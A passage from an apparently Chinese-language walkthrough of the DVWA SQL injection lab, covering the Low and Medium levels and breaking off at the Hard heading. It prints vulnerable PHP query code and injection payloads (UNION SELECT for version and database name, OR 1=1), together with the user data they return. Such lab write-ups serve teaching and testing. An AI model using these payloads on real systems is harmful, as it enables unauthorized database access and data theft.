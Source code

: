 ```
ID: ' union select @@version,database() #  
First name: 5.7.26  
Surname: dvwa
```

看到版本是5.7.26 , 数据库名字是 dvwa , 已经可以证实存在 sql 漏洞


##### Medium

```php
$id = $_POST[ 'id' ];
$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

```
mysqli_real_escape_string 函数：对于特殊字符转义，但是不会过滤 or and 这类字符
$GLOBALS["___mysqli_ston"] ： 表示全局 MySQL 数据库连接对象
```

看到没有单引号，那就应该是数字型注入，尝试一下

```
id=0 or 1=1 #&Submit=Submit

ID: 0 or 1=1 #  
First name: admin  
Surname: admin

ID: 0 or 1=1 #  
First name: Gordon  
Surname: Brown

ID: 0 or 1=1 #  
First name: Hack  
Surname: Me

ID: 0 or 1=1 #  
First name: Pablo  
Surname: Picasso

ID: 0 or 1=1 #  
First name: Bob  
Surname: Smith
```

```
ID: 0 union select @@version,database() #  
First name: 5.7.26  
Surname: dvwa
```

看到成功回显，证实存在 sql 注入漏洞，在后面枚举数据的时候要注意吧单引号内的数据换成 **Hex (16进制)** 编码。


##### HARD
